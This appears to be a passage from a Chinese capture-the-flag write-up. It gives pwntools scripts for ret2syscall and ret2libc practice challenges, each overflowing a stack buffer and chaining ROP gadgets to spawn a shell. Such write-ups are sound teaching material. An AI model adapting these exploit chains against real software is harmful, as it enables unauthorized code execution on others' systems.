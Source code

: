 ```

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_addr = 0x08049421
bin_addr = 0x080be408

payload = ''
payload += 'a'*112
payload += p32(pop_eax_ret)+p32(0xb)+p32(pop_edx_ecx_ebx_ret)+p32(0)+p32(0)+p32(bin_addr)+p32(int_addr)

sh.sendline(payload)
sh.interactive()
```

### 0x03 ret2libc1
emmmmmm 这道题和第一题一样差不多的步骤，差不多的问题，不想截图了，直接看脚本吧。
```
from pwn import *

sh = process('./ret2libc1')

system_addr = 0x08048460
bin_addr = 0x08048720

payload =''
payload += 'a'*112
payload += p32(system_addr)+p32(0)+p32(bin_addr)

sh.sendline(payload)
sh.interactive()
```
</br>

### 0x04 ret2libc2
这道题稍微有点意思。同样的开了NX保护，看ida结果
![main函数](16.png)
![secure函数](17.png)
</br>这次给了system函数，但没给'/bin/sh'，要我们自己填充。可读写的bss段上有buf2
</br>之后找到了ebx,写exp;
```
from pwn import *

c = process('./ret2libc2')

get_plt = 0x08048460
buf2_addr = 0x0804A080
pop_ebx = 0x0804843d
system_addr = 0x08048490

payload = ''
payload += 'a'*112
payload += p32(get_plt)+p32(pop_ebx)+p32(buf2_addr)+p32(system_addr)+p32(0x0)+p32(buf2_addr)

c.sendline(payload)
c.sendline('/bin/sh')
c.interactive()
```
